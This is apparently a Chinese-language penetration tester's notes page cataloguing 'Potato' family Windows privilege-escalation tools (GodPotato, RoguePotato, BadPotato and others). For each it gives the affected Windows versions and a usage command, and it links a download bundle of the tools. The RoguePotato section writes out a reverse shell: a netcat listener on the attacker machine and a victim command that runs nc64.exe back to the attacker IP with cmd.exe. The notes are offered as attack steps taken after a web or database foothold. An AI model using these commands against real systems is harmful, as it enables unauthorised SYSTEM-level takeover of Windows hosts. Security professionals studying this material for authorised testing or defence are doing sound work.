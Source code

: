 ```yaml
---
{"created":"2024-11-22T10:29:45.677+08:00","tags":["windows提权"],"Type":"null","dg-publish":true,"aliases":["土豆家族"],"permalink":"/26-工具使用/土豆家族使用/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


[土豆家族大礼包下载](https://www.playbook.com/s/yurain/d9Au4zrdtcykJ1wKvLU6rAio?assetToken=Ktb9LG4dK5fJnhA1p9Nnigbi)
原文： https://mp.weixin.qq.com/s/OW4ybuqtErh_ovkTWLSr8w

搭配 [[26-工具使用/wesng使用\|wesng使用]]进行提权

提权检测在线平台： http://bypass.tidesec.com/exp/

https://gh0st.cn/AssistTool

## 1. 介绍
  土豆(potato)提权通常用在我们获取WEB/数据库权限的时候，可以将低权限的服务用户提升为“NT AUTHORITY\SYSTEM”特权。

**原理**
 土豆系列提权的核心是NTLM中继，通过欺骗运行在高权限（Administrator/SYSTEM）的账户进行ntlm认证，同时作为中间人对认证过程进行劫持和重放，最后调用本地认证接口使用高权限账号的ntml认证获取一个高权限token，只要当前进程拥有SeImpersonatePrivilege权限即可进行令牌模仿，即可取得对应权限。

## 2. GodPotato
https://github.com/BeichenDream/GodPotato
DCOM rpcss在处理ox时存在一些缺陷，`rpcss`是系统必须开启的服务，所以它几乎可以运行在任何Windows操作系统上。  

作用范围：Windows Server 2012 - Windows Server 2022、Windows8 - Windows 11
```bash
GodPotato.exe -cmd "cmd /c whoami"
```

## 3. SweetPotato
https://github.com/CCob/SweetPotato
作用范围：从Windows 7到Windows 10 / Server 2019

```bash
SweetPotato.exe -a "whoami"
```

## 4. RoguePotato
https://github.com/antonioCoco/RoguePotato
Rogue Potato通过指定远程 IP(攻击者 IP)指示 DCOM 服务器执行远程 OXID 查询在远程 IP 上，设置一个"socat"侦听器，用于将 OXID 解析请求重定向到一个假的OXID RPC 服务器伪造的OXID RPC 服务器实现了ResolveOxid2服务器过程；该过程将指向受控命名管道`[ncacn_np:localhost/pipe/roguepotato\pipeepmapper\]`DCOM 服务器将连接到 RPC 服务器以执行IRemUnkown2接口调用。通过连接到命名管道，将执行"身份验证回调"，我们可以通过 RpcImpersonateClient()调用模拟调用者。

作用范围：Win 10(部分版本)和Win Server 19
```bash
攻击机：
nc -lvnp  9999

受害机：
RoguePotato.exe -r <攻击机ip> -e "c:\everyone\nc64.exe <攻击机ip> 9999 -e cmd.exe" -l 6666
```
## 5. BadPotato
https://github.com/BeichenDream/BadPotato
利用了一个打印机bug，通过调用RpcRemoteFindFirstPrinterChangeNotificationEx让打印机服务通过命名管道发送通知，强行使SYSTEM连接到目标命名管道，然后通过如上介绍的方法直接获取到SYSTEM权限

作用范围：Windows 2012-2019、Windows 8-10
```bash
BadPotato.exe whoami
```
## 6. EfsPotato
https://github.com/zcgonvh/EfsPotato
利用MS-EFSR EfsRpcEncryptFileSrv带有 SeImpersonatePrivilege 本地权限升级漏洞

作用范围：未知
```bash
EfsPotato.exe whoami
```
## 7. MultiPotato
https://github.com/S3cur3Th1sSh1t/MultiPotato
作用范围：未知
```bash
MultiPotato>whoami
```
## 8. CandyPotato
https://github.com/klezVirus/CandyPotato
0.2 版JuicyPotato。与0.1版本（JuicyPotato）相比，该版本提供了一些改进，例如自动化利用。

作用范围：win10和server2016

## 9. RasmanPotato
https://github.com/crisprss/RasmanPotato
只是另一个土豆，就像其他土豆一样，使用 `RasMan` 服务进行权限升级

作用范围：Windows 10(11 not test), Windows Server 2012 - 2019(2022 not test)
```bash
RasmanPotato.exe -i -c whoami -m 1
```
## 10. PetitPotato
https://github.com/wh0amitz/PetitPotato
通过 PetitPotam 进行本地权限升级（滥用模拟权限）。

作用范围：未知
```bash
PetitPotato.exe 3 cmd
```

## 11. JuicyPotatoNG
https://github.com/antonioCoco/JuicyPotatoNG
利用PrintNotify COM服务进行提权。

作用范围：Windows 10 - 11 Windows Server 2012 - 2022
```bash
JuicyPotatoNG.exe>whoami
```

## 12. PrintNotifyPotato
https://github.com/BeichenDream/PrintNotifyPotato
原理：又一个土豆，利用PrintNotify COM服务进行提权，跟JuicyPotatoNG实现相同，只不过JuicyPotatoNG是用c++实现的，而PrintNotifyPotato是用c#实现的。

作用范围：Windows 10 - 11 Windows Server 2012 - 2022
## 13. CoercedPotato
https://github.com/Prepouce/CoercedPotato
在 Windows 10、Windows 11 和 Server 2022 上通过滥用 SeImpersonatePrivilege 从 Patate（本地/网络服务）到 SYSTEM。

作用范围：Windows 10 - 11 Windows Server 2012 - 2022
